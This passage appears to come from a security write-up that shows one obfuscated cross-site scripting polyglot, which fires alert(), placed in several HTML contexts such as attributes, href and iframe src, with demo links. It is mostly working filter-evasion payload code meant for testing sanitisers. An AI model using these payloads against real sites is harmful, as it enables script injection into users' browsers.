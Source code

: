 * **Single-quoted tag attributes:**

```
<input type='text' value='

jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e

'></input>
```

_Demo: _[_https://jsbin.com/diwedo_](https://jsbin.com/diwedo)

* **Unquoted tag attributes:**

```
<input type=text value=jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e></input>
```

_Demo: _[_https://jsbin.com/zizuvad_](https://jsbin.com/zizuvad)

* **Unquoted tag attributes with HTML-escaped values (may require a click):**

```
<img border=3 alt=jaVasCript:/*-/*`/*\`/*&#039;/*&quot;/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//&lt;/stYle/&lt;/titLe/&lt;/teXtarEa/&lt;/scRipt/--!&gt;\x3csVg/&lt;sVg/oNloAd=alert()//&gt;\x3e>
```

_Demo: _[_https://jsbin.com/gopavuz_](https://jsbin.com/gopavuz)_ (note that the click might not be needed with elements that support the `onload` event handler.)_

* **`href`/`xlink:href` and `src` attributes with HTML-escaped values:**

```
<a href="

jaVasCript:/*-/*`/*\`/*&#039;/*&quot;/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//&lt;/stYle/&lt;/titLe/&lt;/teXtarEa/&lt;/scRipt/--!&gt;\x3csVg/&lt;sVg/oNloAd=alert()//&gt;\x3e

">click me</a>
```

_Demo: _[_https://jsbin.com/kixepi_](https://jsbin.com/kixepi)

```
<math xlink:href="

jaVasCript:/*-/*`/*\`/*&#039;/*&quot;/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//&lt;/stYle/&lt;/titLe/&lt;/teXtarEa/&lt;/scRipt/--!&gt;\x3csVg/&lt;sVg/oNloAd=alert()//&gt;\x3e

">click me</math>
```

_Demo: _[_https://jsbin.com/bezofuw_](https://jsbin.com/bezofuw)

```
<iframe src="

jaVasCript:/*-/*`/*\`/*&#039;/*&quot;/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//&lt;/stYle/&lt;/titLe/&lt;/teXtarEa/&lt;/scRipt/--!&gt;\x3csVg/&lt;sVg/oNloAd=alert()//&gt;\x3e

"></iframe>
```
